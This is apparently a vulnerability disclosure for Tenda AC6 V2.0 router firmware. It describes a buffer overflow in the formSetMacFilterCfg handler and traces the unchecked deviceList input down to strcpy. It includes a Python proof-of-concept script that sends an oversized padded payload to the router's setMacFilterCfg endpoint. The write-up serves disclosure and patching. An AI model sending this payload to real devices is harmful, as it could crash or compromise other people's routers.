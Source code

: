 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetMacFilterCfg"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the function `formSetMacFilterCfg`, user-supplied parameters **`macFilterType`** and **`deviceList`** are passed to a function **without input validation**, ultimately leading to an **overflow**.

formSetMacFilterCfg-》set_macfilter_rules-》set_macfilter_rules_by_one-》parse_macfilter_rule-》strcpy

![image-20250614182456806](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614182456806.png)

![image-20250619135927395](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619135927395.png)

![image-20250619135900666](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619135900666.png)

poc

```
import requests
def send_payload(url, type,list):
    params = {b'macFilterType': type,b'deviceList': list}
    cookie={'password':'ssetgb'}
    response = requests.post(url, cookies=cookie, data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/setMacFilterCfg"
type=b'black'
list="DEADBEEFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\r11"
send_payload(url, type, list)
```

![image-20250616215744978](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616215744978.png)